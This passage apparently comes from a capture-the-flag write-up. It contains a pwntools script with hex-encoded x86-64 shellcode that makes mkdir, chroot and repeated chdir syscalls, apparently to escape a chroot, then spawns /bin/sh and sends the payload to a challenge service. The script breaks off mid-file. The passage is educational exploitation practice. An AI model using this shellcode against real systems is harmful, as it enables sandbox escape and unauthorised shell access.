 Finally its time to add our shellcode into the pwntools script, so we can automate our way to the flag and glory!

```python
### shellcode
hexx = """
6a 53               
58                  
6a 2e               
66 68 2e 2e         
48 89 e7            
be c0 01 00 00      
0f 05               
b8 a1 00 00 00      
48 89 e7            
0f 05               
66 5a               
48 31 c9            
51                  
66 52               
b1 64               

b8 50 00 00 00      
48 89 e7            
51                  
0f 05               
59                  
e2 f2               
b8 3d 00 00 00      
48 31 c9            
88 4c 24 01         
48 89 e7            
0f 05               
48 31 c0            
48 83 c0 3b         
48 31 ff            
57                  
48 bf 2f 62 69 6e 2f
2f 73 68
57                  
48 8d 3c 24         
48 31 f6            
48 31 d2            
0f 05               
"""
asm = hexx.split("\n")
b = []
for a in asm:
    x = a.strip()
    b.append(x)
shellcode = ''.join(b).replace(" ","")
### shellcode

###OTHER STUFF FROM ABOVE###

def pwn():
    sh = binascii.unhexlify(shellcode)
    command(".admin_check")
    p.sendafter("Commands:", sh+b"\n")

if __name__ == "__main__":
    #input char from shell
    CHAR = ">"
    #setup directory
```